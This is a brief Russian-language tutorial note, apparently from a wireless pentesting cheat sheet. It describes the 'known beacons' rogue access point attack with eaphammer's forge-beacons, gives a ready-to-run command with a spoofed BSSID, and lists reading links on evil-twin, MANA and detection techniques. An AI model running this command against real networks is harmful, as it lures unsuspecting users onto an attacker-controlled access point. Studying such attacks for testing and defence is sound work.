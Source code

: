 ## Атака по известным маякам
Можно использовать скрипт внутри проекта Eaphammer для быстрого запуска маяков с каждым именем ESSID внутри файла. Если объединить этот скрипт с MANA-атакой Eaphammer, клиенты смогут подключиться к нашей точке доступа. forge-beacons - модуль eaphammer
```
./forge-beacons -i wlan1 \
 --bssid de:ad:be:ef:13:37 \
 --known-essids-file known-s.txt \
 --dst-addr 11:22:33:11:22:33 \
 --burst-count 5
 ```

## Почитать:
https://posts.specterops.io/modern-wireless-attacks-pt-i-basic-rogue-ap-theory-evil-twin-and-karma-attacks-35a8571550ee
https://posts.specterops.io/modern-wireless-attacks-pt-ii-mana-and-known-beacon-attacks-97a359d385f9
https://posts.specterops.io/modern-wireless-tradecraft-pt-iii-management-frame-access-control-lists-mfacls-22ca7f314a38
https://posts.specterops.io/modern-wireless-tradecraft-pt-iv-tradecraft-and-detection-d1a95da4bb4d
https://github.com/gdssecurity/Whitepapers/blob/master/GDS%20Labs%20-%20Identifying%20Rogue%20Access%20Point%20Attacks%20Using%20Probe%20Response%20Patterns%20and%20Signal%20Strength.pdf
https://solstice.sh/2019/09/10/eap-downgrade-attacks/
https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/

